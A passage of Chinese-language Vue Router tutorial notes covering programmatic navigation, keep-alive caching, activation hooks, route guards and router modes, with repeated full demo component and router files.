    <li>news001</li>
    <li>news002</li>
    <li>news003</li>
  </ul>
</template>
<script>
export default {
  name: "News",
};
</script>
<style></style>
```

```vue
//router文件夹下的index.js文件： // 该文件专门用于创建整个应用得路由器 import
VueRouter from "vue-router"; //引入组件 import About from '../pages/About'
import Home from '../pages/Home' import News from "../pages/News" import Message
from "../pages/Message" import Detail from "../pages/Detail" //
创建并暴露一个路由器 export default new VueRouter({ routes:[ { name:'guanyu',
path:"/about", component:About }, { path:"/home", component:Home, children:[ {
path:"news", component:News }, { path:"message", component:Message, children:[ {
name:'xiangqing', path:'detail', component:Detail,
//props的第一种写法，值为对象,该对象中的所有key-value都会以props的形式传给Detail组件
// props:{a:1,b:'hello'} //
props的第二种写法，值为布尔值,若布尔值为真，就会被把该路由组件收到的所有params参数，以props的形式传给Detail组件
// props:true //props的第三种写法，值为函数 props($route){ return
{id:$route.query.id,title:$route.query.title} } } ] }, ] }, ] })
```

```vue
//App.vue文件：
<template>
  <div>
    <div>
      <div class="row">
        <Banner />
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              replace
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              replace
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "./components/Banner";
export default {
  name: "App",
  components: { Banner },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 9.编程式路由导航：

1.作用：不借助`<router-link>`实现路由跳转，让路由跳转更加灵活

2.具体编码：

```
//$router的三个API
this.$router.push({
	name:'xiangqing',
	params:{
		id:xxx,
		title:xxx
	}
})

this.$router.replace({
	name:'xiangqing',
	params:{
		id:xxx,
		title:xxx
	}
})

this.$router.go() //参数为数值，整数表示前进步数，负数表示后退步数
```

```vue
//component文件夹下的Banner.vue文件：
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header">
      <h2>Vue Router Demo</h2>
      <button @click="back">后退</button>
      <button @click="forward">前进</button>
      <button @click="go">测试一下go</button>
    </div>
  </div>
</template>
<script>
export default {
  name: "Banner",
  methods: {
    back() {
      // this.$router.back();
      console.log(this.$router);
    },
    forward() {
      this.$router.forward();
    },
    go() {
      this.$router.go(3);
    },
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的About.vue文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
  /*beforeDestroy() {
    console.log("About组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("About组件挂载完毕了", this);
  //   window.aboutRoute = this.$route;
  //   window.aboutRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Detail.vue文件：
<template>
  <ul>
    <li>消息编号：{{ id }}</li>
    <li>消息标题：{{ title }}</li>
  </ul>
</template>
<script>
export default {
  name: "Detail",
  props: ["id", "title"],
};
</script>
<style></style>
```

```vue
//pages文件夹下的Home.vue文件：
<template>
  <div>
    <h2>Home组件内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <router-view></router-view>
    </div>
  </div>
</template>
<script>
export default {
  name: "Home",
  /*beforeDestroy() {
    console.log("Home组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("Home组件挂载完毕了", this);
  //   window.homeRoute = this.$route;
  //   window.homeRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Message.vue文件：
<template>
  <div>
    <ul>
      <li v-for="m in massageList" :key="m.id">
        <!-- 跳转路由并携带params参数，to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail/${m.id}/${m.title}`">{{
          m.title
        }}</router-link> -->
        <!-- 跳转路由并携带params参数，to的对象写法 -->
        <router-link
          replace
          :to="{
            name: 'xiangqing',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
        >
          {{ m.title }}
        </router-link>
        <button @click="pushShow(m)">push查看</button>
        <button @click="replaceShow(m)">replace查看</button>
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>
<script>
export default {
  name: "Message",
  data() {
    return {
      massageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" },
      ],
    };
  },
  methods: {
    pushShow(m) {
      this.$router.push({
        name: "xiangqing",
        query: {
          id: m.id,
          title: m.title,
        },
      });
    },
    replaceShow(m) {
      this.$router.replace({
        name: "xiangqing",
        query: {
          id: m.id,
          title: m.title,
        },
      });
    },
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的News.vue文件：
<template>
  <ul>
    <li>news001</li>
    <li>news002</li>
    <li>news003</li>
  </ul>
</template>
<script>
export default {
  name: "News",
};
</script>
<style></style>
```

```js
//router文件夹下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from "../pages/About";
import Home from "../pages/Home";
import News from "../pages/News";
import Message from "../pages/Message";
import Detail from "../pages/Detail";

// 创建并暴露一个路由器
export default new VueRouter({
  routes: [
    {
      name: "guanyu",
      path: "/about",
      component: About,
    },
    {
      path: "/home",
      component: Home,
      children: [
        {
          path: "news",
          component: News,
        },
        {
          path: "message",
          component: Message,
          children: [
            {
              name: "xiangqing",
              path: "detail",
              component: Detail,
              //props的第一种写法，值为对象,该对象中的所有key-value都会以props的形式传给Detail组件
              // props:{a:1,b:'hello'}

              // props的第二种写法，值为布尔值,若布尔值为真，就会被把该路由组件收到的所有params参数，以props的形式传给Detail组件
              // props:true

              //props的第三种写法，值为函数
              props($route) {
                return { id: $route.query.id, title: $route.query.title };
              },
            },
          ],
        },
      ],
    },
  ],
});
```

```vue
//App.vue文件：
<template>
  <div>
    <div>
      <div class="row">
        <Banner />
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              replace
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "./components/Banner";
export default {
  name: "App",
  components: { Banner },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 10.缓存路由组件：

1.作用：让不展示的路由组件保存挂载，不被销毁。

2.具体编码：

`<keep-alive>`标签里的属性`include`是包括着路由，其中 News 是为组件名，不写则默认为全部组件名

```
<keep-alive include="News">
	<router-view></router-view>
</keep-alive>
```

```vue
//component文件夹下的Banner.vue文件：
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header">
      <h2>Vue Router Demo</h2>
      <button @click="back">后退</button>
      <button @click="forward">前进</button>
      <button @click="go">测试一下go</button>
    </div>
  </div>
</template>
<script>
export default {
  name: "Banner",
  methods: {
    back() {
      // this.$router.back();
      console.log(this.$router);
    },
    forward() {
      this.$router.forward();
    },
    go() {
      this.$router.go(3);
    },
  },
};
</script>
<style></style>
```

```vue
//pages文件下的About.vue文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
  /*beforeDestroy() {
    console.log("About组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("About组件挂载完毕了", this);
  //   window.aboutRoute = this.$route;
  //   window.aboutRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件下的Detail.vue文件：
<template>
  <ul>
    <li>消息编号：{{ id }}</li>
    <li>消息标题：{{ title }}</li>
  </ul>
</template>
<script>
export default {
  name: "Detail",
  props: ["id", "title"],
};
</script>
<style></style>
```

```vue
//pages文件下的Home.vue文件：
<template>
  <div>
    <h2>Home组件内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <keep-alive include="News">
        <router-view></router-view>
      </keep-alive>
    </div>
  </div>
</template>
<script>
export default {
  name: "Home",
  /*beforeDestroy() {
    console.log("Home组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("Home组件挂载完毕了", this);
  //   window.homeRoute = this.$route;
  //   window.homeRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件下的Message.vue文件：
<template>
  <div>
    <ul>
      <li v-for="m in massageList" :key="m.id">
        <!-- 跳转路由并携带params参数，to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail/${m.id}/${m.title}`">{{
          m.title
        }}</router-link> -->
        <!-- 跳转路由并携带params参数，to的对象写法 -->
        <router-link
          replace
          :to="{
            name: 'xiangqing',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
        >
          {{ m.title }}
        </router-link>
        <button @click="pushShow(m)">push查看</button>
        <button @click="replaceShow(m)">replace查看</button>
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>
<script>
export default {
  name: "Message",
  data() {
    return {
      massageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" },
      ],
    };
  },
  methods: {
    pushShow(m) {
      this.$router.push({
        name: "xiangqing",
        query: {
          id: m.id,
          title: m.title,
        },
      });
    },
    replaceShow(m) {
      this.$router.replace({
        name: "xiangqing",
        query: {
          id: m.id,
          title: m.title,
        },
      });
    },
  },
  beforeDestroy() {
    console.log("Message组件即将被销毁了");
  },
};
</script>
<style></style>
```

```vue
//pages文件下的News.vue文件：
<template>
  <ul>
    <li>news001 <input type="text" /></li>
    <li>news002 <input type="text" /></li>
    <li>news003 <input type="text" /></li>
  </ul>
</template>
<script>
export default {
  name: "News",
  beforeDestroy() {
    console.log("News组件即将被销毁了");
  },
};
</script>
<style></style>
```

```js
//router文件夹下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from "../pages/About";
import Home from "../pages/Home";
import News from "../pages/News";
import Message from "../pages/Message";
import Detail from "../pages/Detail";

// 创建并暴露一个路由器
export default new VueRouter({
  routes: [
    {
      name: "guanyu",
      path: "/about",
      component: About,
    },
    {
      path: "/home",
      component: Home,
      children: [
        {
          path: "news",
          component: News,
        },
        {
          path: "message",
          component: Message,
          children: [
            {
              name: "xiangqing",
              path: "detail",
              component: Detail,
              //props的第一种写法，值为对象,该对象中的所有key-value都会以props的形式传给Detail组件
              // props:{a:1,b:'hello'}

              // props的第二种写法，值为布尔值,若布尔值为真，就会被把该路由组件收到的所有params参数，以props的形式传给Detail组件
              // props:true

              //props的第三种写法，值为函数
              props($route) {
                return { id: $route.query.id, title: $route.query.title };
              },
            },
          ],
        },
      ],
    },
  ],
});
```

```vue
//App.vue文件：
<template>
  <div>
    <div>
      <div class="row">
        <Banner />
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              replace
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "./components/Banner";
export default {
  name: "App",
  components: { Banner },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 11.两个新的生命周期钩子：

1.作用：路由组件所独有的两个钩子，用于捕获路由组件的激活状态。

2.具体名字：

1. `activated`路由组件被激活时触发。
2. `deactivated`路由组件失活时被触发。

```vue
//component文件夹下的Banner.vue文件：
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header">
      <h2>Vue Router Demo</h2>
      <button @click="back">后退</button>
      <button @click="forward">前进</button>
      <button @click="go">测试一下go</button>
    </div>
  </div>
</template>
<script>
export default {
  name: "Banner",
  methods: {
    back() {
      // this.$router.back();
      console.log(this.$router);
    },
    forward() {
      this.$router.forward();
    },
    go() {
      this.$router.go(3);
    },
  },
};
</script>
<style></style>
```

```js
//pages文件夹下的About.js文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
  /*beforeDestroy() {
    console.log("About组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("About组件挂载完毕了", this);
  //   window.aboutRoute = this.$route;
  //   window.aboutRouter = this.$router;
  // },
};
</script>
<style></style>
```

```js
//pages文件夹下的Detail.js文件：
<template>
  <ul>
    <li>消息编号：{{ id }}</li>
    <li>消息标题：{{ title }}</li>
  </ul>
</template>
<script>
export default {
  name: "Detail",
  props: ["id", "title"],
};
</script>
<style></style>
```

```js
//pages文件夹下的Home.js文件：
<template>
  <div>
    <h2>Home组件内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <!-- 缓存多个路由组件 -->
      <!-- <keep-alive :include="['News', 'Message']">
        <router-view></router-view>
      </keep-alive> -->

      <!-- 缓存一个路由组件 -->
      <keep-alive include="News">
        <router-view></router-view>
      </keep-alive>
    </div>
  </div>
</template>
<script>
export default {
  name: "Home",
  /*beforeDestroy() {
    console.log("Home组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("Home组件挂载完毕了", this);
  //   window.homeRoute = this.$route;
  //   window.homeRouter = this.$router;
  // },
};
</script>
<style></style>
```

```js
//pages文件夹下的Message.js文件：
<template>
  <div>
    <ul>
      <li v-for="m in massageList" :key="m.id">
        <!-- 跳转路由并携带params参数，to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail/${m.id}/${m.title}`">{{
          m.title
        }}</router-link> -->
        <!-- 跳转路由并携带params参数，to的对象写法 -->
        <router-link
          replace
          :to="{
            name: 'xiangqing',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
        >
          {{ m.title }}
        </router-link>
        <button @click="pushShow(m)">push查看</button>
        <button @click="replaceShow(m)">replace查看</button>
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>
<script>
export default {
  name: "Message",
  data() {
    return {
      massageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" },
      ],
    };
  },
  methods: {
    pushShow(m) {
      this.$router.push({
        name: "xiangqing",
        query: {
          id: m.id,
          title: m.title,
        },
      });
    },
    replaceShow(m) {
      this.$router.replace({
        name: "xiangqing",
        query: {
          id: m.id,
          title: m.title,
        },
      });
    },
  },
  beforeDestroy() {
    // console.log("Message组件即将被销毁了");
  },
};
</script>
<style></style>
```

```js
//pages文件夹下的News.js文件：
<template>
  <ul>
    <li :style="{ opacity }">欢迎学习Vue</li>
    <li>news001 <input type="text" /></li>
    <li>news002 <input type="text" /></li>
    <li>news003 <input type="text" /></li>
  </ul>
</template>
<script>
export default {
  name: "News",
  data() {
    return {
      opacity: 1,
    };
  },
  /*beforeDestroy() {
    console.log("News组件即将被销毁了");
    clearInterval(this.timer);
  },*/
  /*mounted() {
    this.timer = setInterval(() => {
      this.opacity -= 0.01;
      if (this.opacity <= 0) {
        this.opacity = 1;
      }
    }, 16);
  },*/
  activated() {
    console.log("News组件被激活了");
    this.timer = setInterval(() => {
      this.opacity -= 0.01;
      if (this.opacity <= 0) {
        this.opacity = 1;
      }
    }, 16);
  },
  deactivated() {
    console.log("News组件失活了");
    clearInterval(this.timer);
  },
};
</script>
<style></style>
```

```js
//router文件夹下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from "../pages/About";
import Home from "../pages/Home";
import News from "../pages/News";
import Message from "../pages/Message";
import Detail from "../pages/Detail";

// 创建并暴露一个路由器
export default new VueRouter({
  routes: [
    {
      name: "guanyu",
      path: "/about",
      component: About,
    },
    {
      path: "/home",
      component: Home,
      children: [
        {
          path: "news",
          component: News,
        },
        {
          path: "message",
          component: Message,
          children: [
            {
              name: "xiangqing",
              path: "detail",
              component: Detail,
              //props的第一种写法，值为对象,该对象中的所有key-value都会以props的形式传给Detail组件
              // props:{a:1,b:'hello'}

              // props的第二种写法，值为布尔值,若布尔值为真，就会被把该路由组件收到的所有params参数，以props的形式传给Detail组件
              // props:true

              //props的第三种写法，值为函数
              props($route) {
                return { id: $route.query.id, title: $route.query.title };
              },
            },
          ],
        },
      ],
    },
  ],
});
```

```vue
//App.vue文件：
<template>
  <div>
    <div>
      <div class="row">
        <Banner />
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              replace
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "./components/Banner";
export default {
  name: "App",
  components: { Banner },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 12.路由守卫：

1. 作用：对路由进行权限控制

2. 分类：全局守卫、独享守卫、组件内守卫

3. 全局守卫：

   ```js
   //全局前置守卫：初始化时执行、每次路由切换前执行
   router.beforeEach((to, from, next) => {
     console.log("beforeEach", to, from);
     if (to.meta.isAuth) {
       //判断当前路由是否需要进行权限控制
       if (localStorage.getItem("school") === "bilibili") {
         //权限控制的具体规则
         next(); //放行
       } else {
         alert("学校名不对，无权限访问");
         //next({name:'guanyu'})
       }
     } else {
       next(); //放行
     }
   });

   //全局后置守卫：初始化时执行、每次路由切换后执行
   router.afterEach((to, from) => {
     console.log("afterEach", to, from);
     if (to.meta.title) {
       document.title = to.meta.title; //修改网页的title
     } else {
       document.title = "vue_test";
     }
   });
   ```

4. 独享守卫：

   ```js
   beforeEnter:(to, from, next) => {
   	console.log('beforeEnter',to,from)
       if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制            															if(localStorage.getItem('school')==='bilibili'){
                 	next()
            	}else{
                    alert('学校名不对，无权限访问')
                    //next({name:'guanyu'})
              }
    	}else{
             next()
       }
   }
   ```

5. 组件守卫：

   ```js
   //进入守卫：通过路由规则，进入该组件时被调用
   beforeRouteEnter(to,from,next){
   },
   //离开守卫：通过路由规则，离开该组件时被调用
   beforeRouteLeave(to,from,next){
   },
   ```

```vue
//components文件夹下的Banner.vue文件：
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header">
      <h2>Vue Router Demo</h2>
      <button @click="back">后退</button>
      <button @click="forward">前进</button>
      <button @click="go">测试一下go</button>
    </div>
  </div>
</template>
<script>
export default {
  name: "Banner",
  methods: {
    back() {
      // this.$router.back();
      console.log(this.$router);
    },
    forward() {
      this.$router.forward();
    },
    go() {
      this.$router.go(3);
    },
  },
};
</script>
<style></style>
```

```vue
//pages文件下的About.vue文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
  /*beforeDestroy() {
    console.log("About组件即将被销毁了");
  },*/
  /*mounted() {
    console.log("About组件挂载完毕了", this);
    window.aboutRoute = this.$route;
    window.aboutRouter = this.$router;
  },*/
  // 通过路由规则，进入该组件时被调用
  beforeRouteEnter(to, from, next) {
    if (to.meta.isAuth) {
      console.log("About--beforeRouteEnter", to, from);
      //判断是否需要鉴权
      if (localStorage.getItem("school") === "bilibili") {
        next();
      } else {
        alert("学校名不对，无权限访问");
      }
    } else {
      next();
    }
  },
  // 通过路由规则，离开该组件时被调用
  beforeRouteLeave(to, from, next) {
    console.log("About--beforeRouteLeave", to, from);
    next();
  },
};
</script>
<style></style>
```

```vue
//pages文件下的Detail.vue文件：
<template>
  <ul>
    <li>消息编号：{{ id }}</li>
    <li>消息标题：{{ title }}</li>
  </ul>
</template>
<script>
export default {
  name: "Detail",
  props: ["id", "title"],
};
</script>
<style></style>
```

```vue
//pages文件下的Home.vue文件：
<template>
  <div>
    <h2>Home组件内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <!-- 缓存多个路由组件 -->
      <!-- <keep-alive :include="['News', 'Message']">
        <router-view></router-view>
      </keep-alive> -->

      <!-- 缓存一个路由组件 -->
      <keep-alive include="News">
        <router-view></router-view>
      </keep-alive>
    </div>
  </div>
</template>
<script>
export default {
  name: "Home",
  /*beforeDestroy() {
    console.log("Home组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("Home组件挂载完毕了", this);
  //   window.homeRoute = this.$route;
  //   window.homeRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件下的Message.vue文件：
<template>
  <div>
    <ul>
      <li v-for="m in massageList" :key="m.id">
        <!-- 跳转路由并携带params参数，to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail/${m.id}/${m.title}`">{{
          m.title
        }}</router-link> -->
        <!-- 跳转路由并携带params参数，to的对象写法 -->
        <router-link
          replace
          :to="{
            name: 'xiangqing',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
        >
          {{ m.title }}
        </router-link>
        <button @click="pushShow(m)">push查看</button>
        <button @click="replaceShow(m)">replace查看</button>
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>
<script>
export default {
  name: "Message",
  data() {
    return {
      massageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" },
      ],
    };
  },
  methods: {
    pushShow(m) {
      this.$router.push({
        name: "xiangqing",
        query: {
          id: m.id,
          title: m.title,
        },
      });
    },
    replaceShow(m) {
      this.$router.replace({
        name: "xiangqing",
        query: {
          id: m.id,
          title: m.title,
        },
      });
    },
  },
  beforeDestroy() {
    // console.log("Message组件即将被销毁了");
  },
};
</script>
<style></style>
```

```vue
//pages文件下的News.vue文件：
<template>
  <ul>
    <li :style="{ opacity }">欢迎学习Vue</li>
    <li>news001 <input type="text" /></li>
    <li>news002 <input type="text" /></li>
    <li>news003 <input type="text" /></li>
  </ul>
</template>
<script>
export default {
  name: "News",
  data() {
    return {
      opacity: 1,
    };
  },
  /*beforeDestroy() {
    console.log("News组件即将被销毁了");
    clearInterval(this.timer);
  },*/
  /*mounted() {
    this.timer = setInterval(() => {
      this.opacity -= 0.01;
      if (this.opacity <= 0) {
        this.opacity = 1;
      }
    }, 16);
  },*/
  activated() {
    console.log("News组件被激活了");
    this.timer = setInterval(() => {
      this.opacity -= 0.01;
      if (this.opacity <= 0) {
        this.opacity = 1;
      }
    }, 16);
  },
  deactivated() {
    console.log("News组件失活了");
    clearInterval(this.timer);
  },
};
</script>
<style></style>
```

```js
//router文件夹下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from "../pages/About";
import Home from "../pages/Home";
import News from "../pages/News";
import Message from "../pages/Message";
import Detail from "../pages/Detail";

// 创建并暴露一个路由器
const router = new VueRouter({
  routes: [
    {
      name: "guanyu",
      path: "/about",
      component: About,
      meta: { isAuth: true, title: "关于" },
    },
    {
      name: "zhuye",
      path: "/home",
      component: Home,
      meta: { title: "主页" },
      children: [
        {
          name: "xinwen",
          path: "news",
          component: News,
          meta: { isAuth: true, title: "新闻" },
          // 独享路由守卫
          /*beforeEnter:(to, from, next) => {
                        if(to.meta.isAuth){ //判断是否需要鉴权
                            if(localStorage.getItem('school')==='bilibili'){
                                next()
                            }else{
                                alert('学校名不对，无权限访问')
                            }
                        }else{
                            next()
                        }
                    }*/
        },
        {
          name: "xiaoxi",
          path: "message",
          component: Message,
          meta: { isAuth: true, title: "消息" },
          children: [
            {
              name: "xiangqing",
              path: "detail",
              component: Detail,
              meta: { isAuth: true, title: "详情" },

              //props的第一种写法，值为对象,该对象中的所有key-value都会以props的形式传给Detail组件
              // props:{a:1,b:'hello'}

              // props的第二种写法，值为布尔值,若布尔值为真，就会被把该路由组件收到的所有params参数，以props的形式传给Detail组件
              // props:true

              //props的第三种写法，值为函数
              props($route) {
                return { id: $route.query.id, title: $route.query.title };
              },
            },
          ],
        },
      ],
    },
  ],
});

//全局前置路由守卫————初始化的时候被调用、每次路由切换之前被调用
/*router.beforeEach((to,from,next)=>{
    console.log("前置路由守卫",to,from)

    // 路径写法
    /*if(to.path === '/home/news' || to.path === '/home/message'){
        if(localStorage.getItem('school')==='bilibili'){
            next()
        }else{
            alert('学校名不对，无权限访问')
        }
    }else{
        next()
    }*/

//name写法
/*if(to.name === 'xinwen' || to.name === 'xiaoxi'){
        if(localStorage.getItem('school')==='bilibili'){
            next()
        }else{
            alert('学校名不对，无权限访问')
        }
    }else{
        next()
    }*/

//meta写法
/*if(to.meta.isAuth){ //判断是否需要鉴权
        if(localStorage.getItem('school')==='bilibili'){
            next()
        }else{
            alert('学校名不对，无权限访问')
        }
    }else{
        next()
    }*/
//})

//全局后置路由守卫————初始化的时候被调用、每次路由切换之后被调用
/*router.afterEach((to,from)=>{
    console.log('后置路由守卫',to,from)
    document.title = to.meta.title || '哔哩哔哩系统'
    
})*/

export default router;
```

```vue
//App.vue文件：
<template>
  <div>
    <div>
      <div class="row">
        <Banner />
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              replace
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "./components/Banner";
export default {
  name: "App",
  components: { Banner },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 13.路由器的两种工作模式：

1. 对于一个 url 来说，什么是 hash 值？——#及其后面的内容就是 hash 值。
2. hash 值不会包括在 HTTP 请求中，即：hash 值不会带给服务器。
3. hash 模式：
   1. 地址中永远带着#号，不美观。
